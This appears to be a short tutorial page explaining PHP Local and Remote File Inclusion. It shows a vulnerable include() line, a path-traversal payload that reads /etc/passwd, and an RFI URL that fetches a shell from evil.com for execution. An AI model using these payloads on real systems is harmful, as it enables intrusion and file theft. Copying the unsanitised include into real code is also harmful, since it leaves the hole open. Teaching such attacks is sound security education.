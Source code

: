 # Local File 

The vulnerability is easier to understand if we look at a simple section of PHP code.

    http://target.site/index.php?location=IT

and that the PHP code handles the parameter as follows:

    include ("loc/".$_GET['location']);

As you can see, we can enter any valid local path-to-file to have the PHP include it in the response to our browser:

    index.php?location=../../../etc/passwd

This will go up 3 directories and then return the famous Unix password file.

**Hint** : add enough ( . . / ) to reach the root folder. 

<br/>

# Remote File

Remote File Inclusion (RFI) works in the same way as LFI; the only difference is that the file to be included is pulled remotely.

Our aim, in this case, is not just to read, but to include our own code in the execution. An exploitable URL would look like this:

    vuln.php?page=http://evil.com/shell.txt

In this case, **shell.txt**  (containing PHP code) will be included in the page and executed.

### Important

It is important to know that the file included must not have the **.php**  extension; otherwise, the code within the included file will run on the attacker machine, instead of the target web application.

### Example

Target machine is a **Linux machine**

Attacker machine is a **Windows machine**

we will use **test.php & test.txt** and both have the same code.

    phpinfo();


![test-txt](images/test-txt.png)

The image shows info of the target machine using the **.txt** extension.

![test-php](images/test-php.png)

The image shows info of the attacker machine using the **.php** extension.


To immediately spot a vulnerable parameter, you can just inject

    vuln.php?page=http://www.google.com

If it is vulnerable, the HTML code of  **google.com** should be injected into the vulnerable page.